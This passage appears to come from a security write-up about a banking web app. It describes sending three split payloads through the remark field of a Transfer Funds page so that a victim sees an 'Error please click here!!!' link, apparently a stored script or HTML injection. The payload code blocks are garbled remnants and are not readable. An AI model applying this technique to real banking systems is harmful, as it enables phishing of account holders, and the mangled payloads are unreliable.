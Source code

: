 \begin{itemize}
\item
  Three payloads were used due to the character limitations of the
  remark field.
\item
  Navigate to Transfer Funds page and send the below three payloads in
  remark field to victim account from the attacker account.

  \begin{itemize}
  \tightlist
  \item
    Payload 1
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
    \OperatorTok{\textless{}}\OperatorTok{\textgreater{}}\OperatorTok{=} \NormalTok{(}\NormalTok{)[}\NormalTok{]}\OperatorTok{\textless{}/}\OperatorTok{\textgreater{}} 
\end{Highlighting}
\end{Shaded}

  \begin{itemize}
  \tightlist
  \item
    Payload 2
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
    \OperatorTok{\textless{}}\OperatorTok{\textgreater{}} \NormalTok{()\{}\NormalTok{(}\OperatorTok{+}\OperatorTok{,} \NormalTok{)}\OperatorTok{;}\NormalTok{\}}\OperatorTok{\textless{}/}\OperatorTok{\textgreater{}} 
\end{Highlighting}
\end{Shaded}

  \begin{itemize}
  \tightlist
  \item
    Payload 3
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]

    \OperatorTok{\textless{}}\OperatorTok{=}\OperatorTok{\textgreater{}}\OperatorTok{!!\textless{}/}\OperatorTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}
\item
  Once the payloads are transferred victim can see an
  \texttt{Error\ please\ click\ here!!!} link in the remark field on the
  Account details page.
\end{itemize}

